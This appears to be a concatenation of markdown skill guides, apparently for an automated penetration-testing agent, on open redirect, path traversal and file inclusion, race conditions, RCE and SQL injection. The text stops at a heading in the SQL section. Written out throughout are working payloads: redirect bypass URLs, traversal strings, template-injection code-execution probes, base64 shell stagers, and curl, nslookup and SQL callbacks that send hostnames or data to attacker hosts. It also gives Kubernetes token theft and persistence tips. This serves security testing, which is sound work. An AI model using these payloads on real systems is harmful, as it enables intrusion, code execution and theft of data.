description: Open redirect testing for phishing pivots, OAuth token theft, and allowlist bypass
---

# Open Redirect

Open redirects enable phishing, OAuth/OIDC code and token theft, and allowlist bypass in server-side fetchers that follow redirects. Treat every redirect target as untrusted: canonicalize and enforce exact allowlists per scheme, host, and path.

## Attack Surface

**Server-Driven Redirects**
- HTTP 3xx Location

**Client-Driven Redirects**
- `window.location`, meta refresh, SPA routers

**OAuth/OIDC/SAML Flows**
- `redirect_uri`, `post_logout_redirect_uri`, `RelayState`, `returnTo`/`continue`/`next`

**Multi-Hop Chains**
- Only first hop validated

## High-Value Targets

- Login/logout, password reset, SSO/OAuth flows
- Payment gateways, email links, invite/verification
- Unsubscribe, language/locale switches
- `/out` or `/r` redirectors

## Reconnaissance

### Injection Points

- Params: `redirect`, `url`, `next`, `return_to`, `returnUrl`, `continue`, `goto`, `target`, `callback`, `out`, `dest`, `back`, `to`, `r`, `u`
- OAuth/OIDC/SAML: `redirect_uri`, `post_logout_redirect_uri`, `RelayState`, `state`
- SPA: `router.push`/`replace`, `location.assign`/`href`, meta refresh, `window.open`
- Headers: `Host`, `X-Forwarded-Host`/`Proto`, `Referer`; server-side Location echo

### Parser Differentials

**Userinfo**
- `https://trusted.com@evil.com` → validators parse host as trusted.com, browser navigates to evil.com
- Variants: `trusted.com%40evil.com`, `a%40evil.com%40trusted.com`

**Backslash and Slashes**
- `https://trusted.com\evil.com`, `https://trusted.com\@evil.com`, `///evil.com`, `/\evil.com`

**Whitespace and Control**
- `http%09://evil.com`, `http%0A://evil.com`, `trusted.com%09evil.com`

**Fragment and Query**
- `trusted.com#@evil.com`, `trusted.com?//@evil.com`, `?next=//evil.com#@trusted.com`

**Unicode and IDNA**
- Punycode/IDN: `truѕted.com` (Cyrillic), `trusted.com。evil.com` (full-width dot), trailing dot

### Encoding Bypasses

- Double encoding: `%2f%2fevil.com`, `%252f%252fevil.com`
- Mixed case and scheme smuggling: `hTtPs://evil.com`, `http:evil.com`
- IP variants: decimal 2130706433, octal 0177.0.0.1, hex 0x7f.1, IPv6 `[::ffff:127.0.0.1]`
- User-controlled path bases: `/out?url=/\evil.com`

## Key Vulnerabilities

### Allowlist Evasion

**Common Mistakes**
- Substring/regex contains checks: allows `trusted.com.evil.com`
- Wildcards: `*.trusted.com` also matches `attacker.trusted.com.evil.net`
- Missing scheme pinning: `data:`, `javascript:`, `file:`, `gopher:` accepted
- Case/IDN drift between validator and browser

**Robust Validation**
- Canonicalize with a single modern URL parser (WHATWG URL)
- Compare exact scheme, hostname (post-IDNA), and an explicit allowlist with optional exact path prefixes
- Require absolute HTTPS; reject protocol-relative `//` and unknown schemes

### OAuth/OIDC/SAML

**Redirect URI Abuse**
- Using an open redirect on a trusted domain for redirect_uri enables code interception
- Weak prefix/suffix checks: `https://trusted.com` → `https://trusted.com.evil.com`
- Path traversal/canonicalization: `/oauth/../../@evil.com`
- `post_logout_redirect_uri` often less strictly validated

### Client-Side Vectors

**JavaScript Redirects**
- `location.href`/`assign`/`replace` using user input
- Meta refresh `content=0;url=USER_INPUT`
- SPA routers: `router.push(searchParams.get('next'))`

### Reverse Proxies and Gateways

- Host/X-Forwarded-* may change absolute URL construction
- CDNs that follow redirects for link checking can leak tokens when chained

### SSRF Chaining

- Server-side fetchers (web previewers, link unfurlers) follow 3xx
- Combine with an open redirect on an allowlisted domain to pivot to internal targets (169.254.169.254, localhost)

## Exploitation Scenarios

### OAuth Code Interception

1. Set redirect_uri to `https://trusted.example/out?url=https://attacker.tld/cb`
2. IdP sends code to trusted.example which redirects to attacker.tld
3. Exchange code for tokens; demonstrate account access

### Phishing Flow

1. Send link on trusted domain: `/login?next=https://attacker.tld/fake`
2. Victim authenticates; browser navigates to attacker page
3. Capture credentials/tokens via cloned UI

### Internal Evasion

1. Server-side link unfurler fetches `https://trusted.example/out?u=http://169.254.169.254/latest/meta-data`
2. Redirect follows to metadata; confirm via timing/headers

## Testing Methodology

1. **Inventory surfaces** - Login/logout, password reset, SSO/OAuth flows, payment gateways, email links
2. **Build test matrix** - Scheme × host × path variants and encoding/unicode forms
3. **Compare behaviors** - Server-side validation vs browser navigation results
4. **Multi-hop testing** - Trusted-domain → redirector → external
5. **Prove impact** - Credential phishing, OAuth code interception, internal egress

## Validation

1. Produce a minimal URL that navigates to an external domain via the vulnerable surface; include the full address bar capture
2. Show bypass of the stated validation (regex/allowlist) using canonicalization variants
3. Test multi-hop: prove only first hop is validated and second hop escapes constraints
4. For OAuth/SAML, demonstrate code/RelayState delivery to an attacker-controlled endpoint

## False Positives

- Redirects constrained to relative same-origin paths with robust normalization
- Exact pre-registered OAuth redirect_uri with strict verifier
- Validators using a single canonical parser and comparing post-IDNA host and scheme
- User prompts that show the exact final destination before navigating

## Impact

- Credential and token theft via phishing and OAuth/OIDC interception
- Internal data exposure when server fetchers follow redirects
- Policy bypass where allowlists are enforced only on the first hop
- Cross-application trust erosion and brand abuse

## Pro Tips

1. Always compare server-side canonicalization to real browser navigation; differences reveal bypasses
2. Try userinfo, protocol-relative, Unicode/IDN, and IP numeric variants early
3. In OAuth, prioritize `post_logout_redirect_uri` and less-discussed flows; they're often looser
4. Exercise multi-hop across distinct subdomains and paths
5. For SSRF chaining, target services known to follow redirects
6. Favor allowlists of exact origins plus optional path prefixes
7. Keep a curated suite of redirect payloads per runtime (Java, Node, Python, Go)

## Summary

Redirection is safe only when the final destination is constrained after canonicalization. Enforce exact origins, verify per hop, and treat client-provided destinations as untrusted across every stack.
```

## File: `strix/skills/vulnerabilities/path_traversal_lfi_rfi.md`
```markdown
---
name: path-traversal-lfi-rfi
description: Path traversal and file inclusion testing for local/remote file access and code execution
---

# Path Traversal / LFI / RFI

Improper file path handling and dynamic inclusion enable sensitive file disclosure, config/source leakage, SSRF pivots, and code execution. Treat all user-influenced paths, names, and schemes as untrusted; normalize and bind them to an allowlist or eliminate user control entirely.

## Attack Surface

**Path Traversal**
- Read files outside intended roots via `../`, encoding, normalization gaps

**Local File Inclusion (LFI)**
- Include server-side files into interpreters/templates

**Remote File Inclusion (RFI)**
- Include remote resources (HTTP/FTP/wrappers) for code execution

**Archive Extraction**
- Zip Slip: write outside target directory upon unzip/untar

**Normalization Mismatches**
- Server/proxy differences (nginx alias/root, upstream decoders)
- OS-specific paths: Windows separators, device names, UNC, NT paths, alternate data streams

## High-Value Targets

**Unix**
- `/etc/passwd`, `/etc/hosts`, application `.env`/`config.yaml`
- SSH keys, cloud creds, service configs/logs

**Windows**
- `C:\Windows\win.ini`, IIS/web.config, programdata configs, application logs

**Application**
- Source code templates and server-side includes
- Secrets in env dumps, framework caches

## Reconnaissance

### Surface Map

- HTTP params: `file`, `path`, `template`, `include`, `page`, `view`, `download`, `export`, `report`, `log`, `dir`, `theme`, `lang`
- Upload and conversion pipelines: image/PDF renderers, thumbnailers, office converters
- Archive extract endpoints and background jobs; imports with ZIP/TAR/GZ/7z
- Server-side template rendering (PHP/Smarty/Twig/Blade), email templates, CMS themes/plugins
- Reverse proxies and static file servers (nginx, CDN) in front of app handlers

### Capability Probes

- Path traversal baseline: `../../etc/hosts` and `C:\Windows\win.ini`
- Encodings: `%2e%2e%2f`, `%252e%252e%252f`, `..%2f`, `..%5c`, mixed UTF-8 (`%c0%2e`), Unicode dots and slashes
- Normalization tests: `..../`, `..\\`, `././`, trailing dot/double dot segments; repeated decoding
- Absolute path acceptance: `/etc/passwd`, `C:\Windows\System32\drivers\etc\hosts`
- Server mismatch: `/static/..;/../etc/passwd` ("..;"), encoded slashes (`%2F`), double-decoding via upstream

## Detection Channels

### Direct

- Response body discloses file content (text, binary, base64)
- Error pages echo real paths

### Error-Based

- Exception messages expose canonicalized paths or `include()` warnings with real filesystem locations

### OAST

- RFI/LFI with wrappers that trigger outbound fetches (HTTP/DNS) to confirm inclusion/execution

### Side Effects

- Archive extraction writes files unexpectedly outside target
- Verify with directory listings or follow-up reads

## Key Vulnerabilities

### Path Traversal Bypasses

**Encodings**
- Single/double URL-encoding, mixed case, overlong UTF-8, UTF-16, path normalization oddities

**Mixed Separators**
- `/` and `\\` on Windows; `//` and `\\\\` collapse differences across frameworks

**Dot Tricks**
- `....//` (double dot folding), trailing dots (Windows), trailing slashes, appended valid extension

**Absolute Path Injection**
- Bypass joins by supplying a rooted path

**Alias/Root Mismatch**
- nginx alias without trailing slash with nested location allows `../` to escape
- Try `/static/../etc/passwd` and ";" variants (`..;`)

**Upstream vs Backend Decoding**
- Proxies/CDNs decoding `%2f` differently; test double-decoding and encoded dots

### LFI Wrappers and Techniques

**PHP Wrappers**
- `php://filter/convert.base64-encode/resource=index.php` (read source)
- `zip://archive.zip#file.txt`
- `data://text/plain;base64`
- `expect://` (if enabled)

**Log/Session Poisoning**
- Inject PHP/templating payloads into access/error logs or session files then include them

**Upload Temp Names**
- Include temporary upload files before relocation; race with scanners

**Proc and Caches**
- `/proc/self/environ` and framework-specific caches for readable secrets

**Legacy Tricks**
- Null-byte (`%00`) truncation in older stacks; path length truncation

### Template Engines

- PHP include/require; Smarty/Twig/Blade with dynamic template names
- Java/JSP/FreeMarker/Velocity; Node.js ejs/handlebars/pug engines
- Seek dynamic template resolution from user input (theme/lang/template)

### RFI Conditions

**Requirements**
- Remote includes (`allow_url_include`/`allow_url_fopen` in PHP)
- Custom fetchers that eval/execute retrieved content
- SSRF-to-exec bridges

**Protocol Handlers**
- http, https, ftp; language-specific stream handlers

**Exploitation**
- Host a minimal payload that proves code execution
- Prefer OAST beacons or deterministic output over heavy shells
- Chain with upload or log poisoning when remote includes are disabled

### Archive Extraction (Zip Slip)

- Files within archives containing `../` or absolute paths escape target extract directory
- Test multiple formats: zip/tar/tgz/7z
- Verify symlink handling and path canonicalization prior to write
- Impact: overwrite config/templates or drop webshells into served directories

## Testing Methodology

1. **Inventory file operations** - Downloads, previews, templates, logs, exports/imports, report engines, uploads, archive extractors
2. **Identify input joins** - Path joins (base + user), include/require/template loads, resource fetchers, archive extract destinations
3. **Probe normalization** - Separators, encodings, double-decodes, case, trailing dots/slashes
4. **Compare behaviors** - Web server vs application behavior
5. **Escalate** - From disclosure (read) to influence (write/extract/include), then to execution (wrapper/engine chains)

## Validation

1. Show a minimal traversal read proving out-of-root access (e.g., `/etc/hosts`) with a same-endpoint in-root control
2. For LFI, demonstrate inclusion of a benign local file or harmless wrapper output (`php://filter` base64 of index.php)
3. For RFI, prove remote fetch by OAST or controlled output; avoid destructive payloads
4. For Zip Slip, create an archive with `../` entries and show write outside target (e.g., marker file read back)
5. Provide before/after file paths, exact requests, and content hashes/lengths for reproducibility

## False Positives

- In-app virtual paths that do not map to filesystem; content comes from safe stores (DB/object storage)
- Canonicalized paths constrained to an allowlist/root after normalization
- Wrappers disabled and includes using constant templates only
- Archive extractors that sanitize paths and enforce destination directories

## Impact

- Sensitive configuration/source disclosure → credential and key compromise
- Code execution via inclusion of attacker-controlled content or overwritten templates
- Persistence via dropped files in served directories; lateral movement via revealed secrets
- Supply-chain impact when report/template engines execute attacker-influenced files

## Pro Tips

1. Compare content-length/ETag when content is masked; read small canonical files (hosts) to avoid noise
2. Test proxy/CDN and app separately; decoding/normalization order differs, especially for `%2f` and `%2e` encodings
3. For LFI, prefer `php://filter` base64 probes over destructive payloads; enumerate readable logs and sessions
4. Validate extraction code with synthetic archives; include symlinks and deep `../` chains
5. Use minimal PoCs and hard evidence (hashes, paths). Avoid noisy DoS against filesystems

## Summary

Eliminate user-controlled paths where possible. Otherwise, resolve to canonical paths and enforce allowlists, forbid remote schemes, and lock down interpreters and extractors. Normalize consistently at the boundary closest to IO.
```

## File: `strix/skills/vulnerabilities/race_conditions.md`
```markdown
---
name: race-conditions
description: Race condition testing for TOCTOU bugs, double-spend, and concurrent state manipulation
---

# Race Conditions

Concurrency bugs enable duplicate state changes, quota bypass, financial abuse, and privilege errors. Treat every read–modify–write and multi-step workflow as adversarially concurrent.

## Attack Surface

**Read-Modify-Write**
- Sequences without atomicity or proper locking

**Multi-Step Operations**
- Check → reserve → commit with gaps between phases

**Cross-Service Workflows**
- Sagas, async jobs with eventual consistency

**Rate Limits and Quotas**
- Controls implemented at the edge only

## High-Value Targets

- Payments: auth/capture/refund/void; credits/loyalty points; gift cards
- Coupons/discounts: single-use codes, stacking checks, per-user limits
- Quotas/limits: API usage, inventory reservations, seat counts, vote limits
- Auth flows: password reset/OTP consumption, session minting, device trust
- File/object storage: multi-part finalize, version writes, share-link generation
- Background jobs: export/import create/finalize endpoints; job cancellation/approve
- GraphQL mutations and batch operations; WebSocket actions

## Reconnaissance

### Identify Race Windows

- Look for explicit sequences: "check balance then deduct", "verify coupon then apply", "check inventory then purchase"
- Watch for optimistic concurrency markers: ETag/If-Match, version fields, updatedAt checks
- Examine idempotency-key support: scope (path vs principal), TTL, and persistence (cache vs DB)
- Map cross-service steps: when is state written vs published, what retries/compensations exist

### Signals

- Sequential request fails but parallel succeeds
- Duplicate rows, negative counters, over-issuance, or inconsistent aggregates
- Distinct response shapes/timings for simultaneous vs sequential requests
- Audit logs out of order; multiple 2xx for the same intent; missing or duplicate correlation IDs

## Key Vulnerabilities

### Request Synchronization

- HTTP/2 multiplexing for tight concurrency; send many requests on warmed connections
- Last-byte synchronization: hold requests open and release final byte simultaneously
- Connection warming: pre-establish sessions, cookies, and TLS to remove jitter

### Idempotency and Dedup Bypass

- Reuse the same idempotency key across different principals/paths if scope is inadequate
- Hit the endpoint before the idempotency store is written (cache-before-commit windows)
- App-level dedup drops only the response while side effects (emails/credits) still occur

### Atomicity Gaps

- Lost update: read-modify-write increments without atomic DB statements
- Partial two-phase workflows: success committed before validation completes
- Unique checks done outside a unique index/upsert: create duplicates under load

### Cross-Service Races

- Saga/compensation timing gaps: execute compensation without preventing the original success path
- Eventual consistency windows: act in Service B before Service A's write is visible
- Retry storms: duplicate side effects due to at-least-once delivery without idempotent consumers

### Rate Limits and Quotas

- Per-IP or per-connection enforcement: bypass with multiple IPs/sessions
- Counter updates not atomic or sharded inconsistently; send bursts before counters propagate

### Optimistic Concurrency Evasion

- Omit If-Match/ETag where optional; supply stale versions if server ignores them
- Version fields accepted but not validated across all code paths (e.g., GraphQL vs REST)

### Database Isolation

- Exploit READ COMMITTED/REPEATABLE READ anomalies: phantoms, non-serializable sequences
- Upsert races: use unique indexes with proper ON CONFLICT/UPSERT or exploit naive existence checks
- Lock granularity issues: row vs table; application locks held only in-process

### Distributed Locks

- Redis locks without NX/EX or fencing tokens allow multiple winners
- Locks stored in memory on a single node; bypass by hitting other nodes/regions

## Bypass Techniques

- Distribute across IPs, sessions, and user accounts to evade per-entity throttles
- Switch methods/content-types/endpoints that trigger the same state change via different code paths
- Intentionally trigger timeouts to provoke retries that cause duplicate side effects
- Degrade the target (large payloads, slow endpoints) to widen race windows

## Special Contexts

### GraphQL

- Parallel mutations and batched operations may bypass per-mutation guards
- Ensure resolver-level idempotency and atomicity
- Persisted queries and aliases can hide multiple state changes in one request

### WebSocket

- Per-message authorization and idempotency must hold
- Concurrent emits can create duplicates if only the handshake is checked

### Files and Storage

- Parallel finalize/complete on multi-part uploads can create duplicate or corrupted objects
- Re-use pre-signed URLs concurrently

### Auth Flows

- Concurrent consumption of one-time tokens (reset codes, magic links) to mint multiple sessions
- Verify consume is atomic

## Chaining Attacks

- Race + Business logic: violate invariants (double-refund, limit slicing)
- Race + IDOR: modify or read others' resources before ownership checks complete
- Race + CSRF: trigger parallel actions from a victim to amplify effects
- Race + Caching: stale caches re-serve privileged states after concurrent changes

## Testing Methodology

1. **Model invariants** - Conservation of value, uniqueness, maximums for each workflow
2. **Identify reads/writes** - Where they occur (service, DB, cache)
3. **Baseline** - Single requests to establish expected behavior
4. **Concurrent requests** - Issue parallel requests with identical inputs; observe deltas
5. **Scale and synchronize** - Ramp up parallelism, use HTTP/2, align timing (last-byte sync)
6. **Cross-channel** - Test across web, API, GraphQL, WebSocket
7. **Confirm durability** - Verify state changes persist and are reproducible

## Validation

1. Single request denied; N concurrent requests succeed where only 1 should
2. Durable state change proven (ledger entries, inventory counts, role/flag changes)
3. Reproducible under controlled synchronization (HTTP/2, last-byte sync) across multiple runs
4. Evidence across channels (e.g., REST and GraphQL) if applicable
5. Include before/after state and exact request set used

## False Positives

- Truly idempotent operations with enforced ETag/version checks or unique constraints
- Serializable transactions or correct advisory locks/queues
- Visual-only glitches without durable state change
- Rate limits that reject excess with atomic counters

## Impact

- Financial loss (double spend, over-issuance of credits/refunds)
- Policy/limit bypass (quotas, single-use tokens, seat counts)
- Data integrity corruption and audit trail inconsistencies
- Privilege or role errors due to concurrent updates

## Pro Tips

1. Favor HTTP/2 with warmed connections; add last-byte sync for precision
2. Start small (N=5–20), then scale; too much noise can mask the window
3. Target read–modify–write code paths and endpoints with idempotency keys
4. Compare REST vs GraphQL vs WebSocket; protections often differ
5. Look for cross-service gaps (queues, jobs, webhooks) and retry semantics
6. Check unique constraints and upsert usage; avoid relying on pre-insert checks
7. Use correlation IDs and logs to prove concurrent interleaving
8. Widen windows by adding server load or slow backend dependencies
9. Validate on production-like latency; some races only appear under real load
10. Document minimal, repeatable request sets that demonstrate durable impact

## Summary

Concurrency safety is a property of every path that mutates state. If any path lacks atomicity, proper isolation, or idempotency, parallel requests will eventually break invariants.
```

## File: `strix/skills/vulnerabilities/rce.md`
```markdown
---
name: rce
description: RCE testing covering command injection, deserialization, template injection, and code evaluation
---

# RCE

Remote code execution leads to full server control when input reaches code execution primitives: OS command wrappers, dynamic evaluators, template engines, deserializers, media pipelines, and build/runtime tooling. Focus on quiet, portable oracles and chain to stable shells only when needed.

## Attack Surface

**Command Execution**
- OS command execution via wrappers (shells, system utilities, CLIs)

**Dynamic Evaluation**
- Template engines, expression languages, eval/vm

**Deserialization**
- Insecure deserialization and gadget chains across languages

**Media Pipelines**
- ImageMagick, Ghostscript, ExifTool, LaTeX, ffmpeg

**SSRF Chains**
- Internal services exposing execution primitives (FastCGI, Redis)

**Container Escalation**
- App RCE to node/cluster compromise via Docker/Kubernetes

## Detection Channels

### Time-Based

**Unix**
- `;sleep 1`, `` `sleep 1` ``, `|| sleep 1`
- Gate delays with short subcommands to reduce noise

**Windows**
- CMD: `& timeout /t 2 &`, `ping -n 2 127.0.0.1`
- PowerShell: `Start-Sleep -s 2`

### OAST

**DNS**
```bash
nslookup $(whoami).x.attacker.tld
```

**HTTP**
```bash
curl https://attacker.tld/$(hostname)
```

### Output-Based

**Direct**
```bash
;id;uname -a;whoami
```

**Encoded**
```bash
;(id;hostname)|base64
```

## Key Vulnerabilities

### Command Injection

**Delimiters and Operators**
- Unix: `; | || & && `cmd` $(cmd) $() ${IFS}` newline/tab
- Windows: `& | || ^`

**Argument Injection**
- Inject flags/filenames into CLI arguments (e.g., `--output=/tmp/x`, `--config=`)
- Break out of quoted segments by alternating quotes and escapes
- Environment expansion: `$PATH`, `${HOME}`, command substitution
- Windows: `%TEMP%`, `!VAR!`, PowerShell `$(...)`

**Path and Builtin Confusion**
- Force absolute paths (`/usr/bin/id`) vs relying on PATH
- Use builtins or alternative tools (`printf`, `getent`) when `id` is filtered
- Use `sh -c` or `cmd /c` wrappers to reach the shell

**Evasion**
- Whitespace/IFS: `${IFS}`, `$'\t'`, `<`
- Token splitting: `w'h'o'a'm'i`, `w"h"o"a"m"i`
- Variable building: `a=i;b=d; $a$b`
- Base64 stagers: `echo payload | base64 -d | sh`
- PowerShell: `IEX([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String(...)))`

### Template Injection

Identify server-side template engines: Jinja2/Twig/Blade/Freemarker/Velocity/Thymeleaf/EJS/Handlebars/Pug

**Minimal Probes**
```
Jinja2: {{7*7}} → {{cycler.__init__.__globals__['os'].popen('id').read()}}
Twig: {{7*7}} → {{_self.env.registerUndefinedFilterCallback('system')}}{{_self.env.getFilter('id')}}
Freemarker: ${7*7} → <#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
EJS: <%= global.process.mainModule.require('child_process').execSync('id') %>
```

### Deserialization and EL

**Java**
- Gadget chains via CommonsCollections/BeanUtils/Spring
- Tools: ysoserial
- JNDI/LDAP chains (Log4Shell-style) when lookups are reachable

**.NET**
- BinaryFormatter/DataContractSerializer
- APIs accepting untrusted ViewState without MAC

**PHP**
- `unserialize()` and PHAR metadata
- Autoloaded gadget chains in frameworks and plugins

**Python/Ruby**
- pickle, `yaml.load`/`unsafe_load`, Marshal
- Auto-deserialization in message queues/caches

**Expression Languages**
- OGNL/SpEL/MVEL/EL reaching Runtime/ProcessBuilder/exec

### Media and Document Pipelines

**ImageMagick/GraphicsMagick**
- policy.xml may limit delegates; still test legacy vectors
```
push graphic-context
fill 'url(https://x.tld/a"|id>/tmp/o")'
pop graphic-context
```

**Ghostscript**
- PostScript in PDFs/PS: `%pipe%id` file operators

**ExifTool**
- Crafted metadata invoking external tools or library bugs

**LaTeX**
- `\write18`/`--shell-escape`, `\input` piping; pandoc filters

**ffmpeg**
- concat/protocol tricks mediated by compile-time flags

### SSRF to RCE

**FastCGI**
- `gopher://` to php-fpm (build FPM records to invoke system/exec)

**Redis**
- `gopher://` write cron/authorized_keys or webroot
- Module load when allowed

**Admin Interfaces**
- Jenkins script console, Spark UI, Jupyter kernels reachable internally

### Container and Kubernetes

**Docker**
- From app RCE, inspect `/.dockerenv`, `/proc/1/cgroup`
- Enumerate mounts and capabilities: `capsh --print`
- Abuses: mounted docker.sock, hostPath mounts, privileged containers
- Write to `/proc/sys/kernel/core_pattern` or mount host with `--privileged`

**Kubernetes**
- Steal service account token from `/var/run/secrets/kubernetes.io/serviceaccount`
- Query API for pods/secrets; enumerate RBAC
- Talk to kubelet on 10250/10255; exec into pods
- Escalate via privileged pods, hostPath mounts, or daemonsets

## Bypass Techniques

**Encoding Differentials**
- URL encoding, Unicode normalization, comment insertion, mixed case
- Request smuggling to reach alternate parsers

**Binary Alternatives**
- Absolute paths and alternate binaries (busybox, sh, env)
- Windows variations (PowerShell vs CMD)
- Constrained language bypasses

## Post-Exploitation

**Privilege Escalation**
- `sudo -l`; SUID binaries; capabilities (`getcap -r / 2>/dev/null`)

**Persistence**
- cron/systemd/user services; web shell behind auth
- Plugin hooks; supply chain in CI/CD

**Lateral Movement**
- SSH keys, cloud metadata credentials, internal service tokens

## Testing Methodology

1. **Identify sinks** - Command wrappers, template rendering, deserialization, file converters, report generators, plugin hooks
2. **Establish oracle** - Timing, DNS/HTTP callbacks, or deterministic output diffs (length/ETag)
3. **Confirm context** - User, working directory, PATH, shell, SELinux/AppArmor, containerization
4. **Map boundaries** - Read/write locations, outbound egress
5. **Progress to control** - File write, scheduled execution, service restart hooks

## Validation

1. Provide a minimal, reliable oracle (DNS/HTTP/timing) proving code execution
2. Show command context (uid, gid, cwd, env) and controlled output
3. Demonstrate persistence or file write under application constraints
4. If containerized, prove boundary crossing attempts (host files, kube APIs) and whether they succeed
5. Keep PoCs minimal and reproducible across runs and transports

## False Positives

- Only crashes or timeouts without controlled behavior
- Filtered execution of a limited command subset with no attacker-controlled args
- Sandboxed interpreters executing in a restricted VM with no IO or process spawn
- Simulated outputs not derived from executed commands

## Impact

- Remote system control under application user; potential privilege escalation to root
- Data theft, encryption/signing key compromise, supply-chain insertion, lateral movement
- Cluster compromise when combined with container/Kubernetes misconfigurations

## Pro Tips

1. Prefer OAST oracles; avoid long sleeps—short gated delays reduce noise
2. When command injection is weak, pivot to file write or deserialization/SSTI paths
3. Treat converters/renderers as first-class sinks; many run out-of-process with powerful delegates
4. For Java/.NET, enumerate classpaths/assemblies and known gadgets; verify with out-of-band payloads
5. Confirm environment: PATH, shell, umask, SELinux/AppArmor, container caps
6. Keep payloads portable (POSIX/BusyBox/PowerShell) and minimize dependencies
7. Document the smallest exploit chain that proves durable impact; avoid unnecessary shell drops

## Summary

RCE is a property of the execution boundary. Find the sink, establish a quiet oracle, and escalate to durable control only as far as necessary. Validate across transports and environments; defenses often differ per code path.
```

## File: `strix/skills/vulnerabilities/sql_injection.md`
```markdown
---
name: sql-injection
description: SQL injection testing covering union, blind, error-based, and ORM bypass techniques
---

# SQL Injection

SQLi remains one of the most durable and impactful vulnerability classes. Modern exploitation focuses on parser differentials, ORM/query-builder edges, JSON/XML/CTE/JSONB surfaces, out-of-band exfiltration, and subtle blind channels. Treat every string concatenation into SQL as suspect.

## Attack Surface

**Databases**
- Classic relational: MySQL/MariaDB, PostgreSQL, MSSQL, Oracle
- Newer surfaces: JSON/JSONB operators, full-text/search, geospatial, window functions, CTEs, lateral joins

**Integration Paths**
- ORMs, query builders, stored procedures
- Search servers, reporting/exporters

**Input Locations**
- Path/query/body/header/cookie
- Mixed encodings (URL, JSON, XML, multipart)
- Identifier vs value: table/column names (require quoting/escaping) vs literals (quotes/CAST requirements)
- Query builders: `whereRaw`/`orderByRaw`, string templates in ORMs
- JSON coercion or array containment operators
- Batch/bulk endpoints and report generators that embed filters directly

## Detection Channels

**Error-Based**
- Provoke type/constraint/parser errors revealing stack/version/paths

**Boolean-Based**
- Pair requests differing only in predicate truth
- Diff status/body/length/ETag

**Time-Based**
- `SLEEP`/`pg_sleep`/`WAITFOR`
- Use subselect gating to avoid global latency noise

**Out-of-Band (OAST)**
- DNS/HTTP callbacks via DB-specific primitives

## DBMS Primitives

### MySQL

- Version/user/db: `@@version`, `database()`, `user()`, `current_user()`
- Error-based: `extractvalue()`/`updatexml()` (older), JSON functions for error shaping
- File IO: `LOAD_FILE()`, `SELECT ... INTO DUMPFILE/OUTFILE` (requires FILE privilege, secure_file_priv)
- OOB/DNS: `LOAD_FILE(CONCAT('\\\\',database(),'.attacker.com\\a'))`
- Time: `SLEEP(n)`, `BENCHMARK`
- JSON: `JSON_EXTRACT`/`JSON_SEARCH` with crafted paths; GIS funcs sometimes leak

### PostgreSQL

- Version/user/db: `version()`, `current_user`, `current_database()`
- Error-based: raise exception via unsupported casts or division by zero; `xpath()` errors in xml2
- OOB: `COPY (program ...)` or dblink/foreign data wrappers (when enabled); http extensions
- Time: `pg_sleep(n)`
- Files: `COPY table TO/FROM '/path'` (requires superuser), `lo_import`/`lo_export`
- JSON/JSONB: operators `->`, `->>`, `@>`, `?|` with lateral/CTE for blind extraction

### MSSQL

- Version/db/user: `@@version`, `db_name()`, `system_user`, `user_name()`
- OOB/DNS: `xp_dirtree`, `xp_fileexist`; HTTP via OLE automation (`sp_OACreate`) if enabled
- Exec: `xp_cmdshell` (often disabled), `OPENROWSET`/`OPENDATASOURCE`
- Time: `WAITFOR DELAY '0:0:5'`; heavy functions cause measurable delays
- Error-based: convert/parse, divide by zero, `FOR XML PATH` leaks

### Oracle

- Version/db/user: banner from `v$version`, `ora_database_name`, `user`
- OOB: `UTL_HTTP`/`DBMS_LDAP`/`UTL_INADDR`/`HTTPURITYPE` (permissions dependent)
- Time: `dbms_lock.sleep(n)`
- Error-based: `to_number`/`to_date` conversions, `XMLType`
- File: `UTL_FILE` with directory objects (privileged)

## Key Vulnerabilities

### UNION-Based Extraction

- Determine column count and types via `ORDER BY n` and `UNION SELECT null,...`
- Align types with `CAST`/`CONVERT`; coerce to text/json for rendering
- When UNION is filtered, switch to error-based or blind channels

### Blind Extraction

- Branch on single-bit predicates using `SUBSTRING`/`ASCII`, `LEFT`/`RIGHT`, or JSON/array operators
- Binary search on character space for fewer requests
- Encode outputs (hex/base64) to normalize
- Gate delays inside subqueries to reduce noise: `AND (SELECT CASE WHEN (predicate) THEN pg_sleep(0.5) ELSE 0 END)`

### Out-of-Band

- Prefer OAST to minimize noise and bypass strict response paths
- Embed data in DNS labels or HTTP query params
- MSSQL: `xp_dirtree \\\\<data>.attacker.tld\\a`
- Oracle: `UTL_HTTP.REQUEST('http://<data>.attacker')`
- MySQL: `LOAD_FILE` with UNC path

### Write Primitives

- Auth bypass: inject OR-based tautologies or subselects into login checks
- Privilege changes: update role/plan/feature flags when UPDATE is injectable
- File write: `INTO OUTFILE`/`DUMPFILE`, `COPY TO`, `xp_cmdshell` redirection
- Job/proc abuse: schedule tasks or create procedures/functions when permissions allow

### ORM and Query Builders

- Dangerous APIs: `whereRaw`/`orderByRaw`, string interpolation into LIKE/IN/ORDER clauses
- Injections via identifier quoting (table/column names) when user input is interpolated into identifiers
- JSON containment operators exposed by ORMs (e.g., `@>` in PostgreSQL) with raw fragments
- Parameter mismatch: partial parameterization where operators or lists remain unbound (`IN (...)`)

### Uncommon Contexts

- ORDER BY/GROUP BY/HAVING with `CASE WHEN` for boolean channels
- LIMIT/OFFSET: inject into OFFSET to produce measurable timing or page shape
- Full-text/search helpers: `MATCH AGAINST`, `to_tsvector`/`to_tsquery` with payload mixing
- XML/JSON functions: error generation via malformed documents/paths

## Bypass Techniques

**Whitespace/Spacing**
- `/**/`, `/**/!00000`, comments, newlines, tabs
- `0xe3 0x80 0x80` (ideographic space)

**Keyword Splitting**
- `UN/**/ION`, `U%4eION`, backticks/quotes, case folding

**Numeric Tricks**
- Scientific notation, signed/unsigned, hex (`0x61646d696e`)

**Encodings**
- Double URL encoding, mixed Unicode normalizations (NFKC/NFD)
- `char()`/`CONCAT_ws` to build tokens

**Clause Relocation**
- Subselects, derived tables, CTEs (`WITH`), lateral joins to hide payload shape

## Testing Methodology

1. **Identify query shape** - SELECT/INSERT/UPDATE/DELETE, presence of WHERE/ORDER/GROUP/LIMIT/OFFSET
2. **Determine input influence** - User input in identifiers vs values
3. **Confirm injection class** - Reflective errors, boolean diffs, timing, or out-of-band callbacks
4. **Choose quietest oracle** - Prefer error-based or boolean over noisy time-based
5. **Establish extraction channel** - UNION (if visible), error-based, boolean bit extraction, time-based, or OAST/DNS
6. **Pivot to metadata** - version, current user, database name
7. **Target high-value tables** - auth bypass, role changes, filesystem access if feasible

## Validation

